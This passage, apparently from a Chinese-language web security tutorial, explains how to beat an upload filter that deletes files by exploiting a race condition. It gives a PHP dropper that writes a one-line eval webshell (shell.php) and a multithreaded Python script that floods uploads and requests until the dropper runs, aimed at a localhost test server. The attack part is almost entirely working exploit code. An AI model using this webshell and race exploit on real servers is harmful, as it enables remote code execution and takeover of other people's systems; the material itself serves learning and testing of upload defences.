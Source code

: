 可以发现，该文件会在服务器落地，然后再被删除。

#### 绕过方法

我们的利用思路是这样的：

1. 首先上传一个php文件，内容为：

```php
<?php fputs(fopen("./shell.php", "w"), '<?php @eval($_POST[1]) ?>'); ?>
```


当然这个文件会被立马删掉，所以我们使用多线程并发的批量的发包同时去访问上传的文件 `URL`, 总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下

```py
import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell.php" # 生成shell的URL
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php" #上传文件的URL

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php","r")}
        requests.post(self.uploadUrl, files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```
---
## 常见解析漏洞总结

